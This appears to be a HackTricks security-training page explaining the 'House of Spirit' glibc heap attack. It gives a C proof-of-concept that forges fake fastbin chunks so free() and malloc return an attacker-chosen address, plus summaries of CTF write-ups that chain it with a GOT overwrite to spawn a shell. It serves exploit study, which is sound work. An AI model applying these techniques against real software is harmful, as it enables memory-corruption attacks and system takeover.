 # House of Spirit

{{#include ../../banners/hacktricks-training.md}}

## Basic Information

### Code

<details>

<summary>House of Spirit</summary>

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
  struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
  void *ptr, *victim;

  ptr = malloc(0x30);

  printf("Original alloc address: %p\n", ptr);
  printf("Main fake chunk:%p\n", &fake_chunks[0]);
  printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

  // Passes size check of "free(): invalid size"
  fake_chunks[0].size = sizeof(struct fast_chunk);

  // Passes "free(): invalid next size (fast)"
  fake_chunks[1].size = sizeof(struct fast_chunk);

  // Attacker overwrites a pointer that is about to be 'freed'
  // Point to .fd as it's the start of the content of the chunk
  ptr = (void *)&fake_chunks[0].fd;

  free(ptr);

  victim = malloc(0x30);
  printf("Victim: %p\n", victim);

  return 0;
}
```

</details>

### Goal

- Be able to add into the tcache / fast bin an address so later it's possible to allocate it

### Requirements

- This attack requires an attacker to be able to create a couple of fake fast chunks indicating correctly the size value of it and then to be able to free the first fake chunk so it gets into the bin.

### Attack

- Create fake chunks that bypasses security checks: you will need 2 fake chunks basically indicating in the correct positions the correct sizes
- Somehow manage to free the first fake chunk so it gets into the fast or tcache bin and then it's allocate it to overwrite that address

**The code from** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house_of_spirit/house_spirit_exp/index.html) **is great to understand the attack.** Although this schema from the code summarises it pretty good:

```c
/*
    this will be the structure of our two fake chunks:
    assuming that you compiled it for x64

    +-------+---------------------+------+
    | 0x00: | Chunk # 0 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x08: | Chunk # 0 size      | 0x60 |
    +-------+---------------------+------+
    | 0x10: | Chunk # 0 content   | 0x00 |
    +-------+---------------------+------+
    | 0x60: | Chunk # 1 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x68: | Chunk # 1 size      | 0x40 |
    +-------+---------------------+------+
    | 0x70: | Chunk # 1 content   | 0x00 |
    +-------+---------------------+------+

    for what we are doing the prev size values don't matter too much
    the important thing is the size values of the heap headers for our fake chunks
*/
```

> [!NOTE]
> Note that it's necessary to create the second chunk in order to bypass some sanity checks.

## Examples

- **CTF** [**https://guyinatuxedo.github.io/39-house_of_spirit/hacklu14_oreo/index.html**](https://guyinatuxedo.github.io/39-house_of_spirit/hacklu14_oreo/index.html)

  - **Libc infoleak**: Via an overflow it's possible to change a pointer to point to a GOT address in order to leak a libc address via the read action of the CTF
  - **House of Spirit**: Abusing a counter that counts the number of "rifles" it's possible to generate a fake size of the first fake chunk, then abusing a "message" it's possible to fake the second size of a chunk and finally abusing an overflow it's possible to change a pointer that is going to be freed so our first fake chunk is freed. Then, we can allocate it and inside of it there is going to be the address to where "message" is stored. Then, it's possible to make this point to the `scanf` entry inside the GOT table, so we can overwrite it with the address to system.\
    Next time `scanf` is called, we can send the input `"/bin/sh"` and get a shell.

- [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
  - **Glibc leak**: Uninitialized stack buffer.
  - **House of Spirit**: We can modify the first index of a global array of heap pointers. With a single byte modification, we use `free` on a fake chunk inside a valid chunk, so that we get an overlapping chunks situation after allocating again. With that, a simple Tcache poisoning attack works to get an arbitrary write primitive.

## References

- [https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit)

{{#include ../../banners/hacktricks-training.md}}
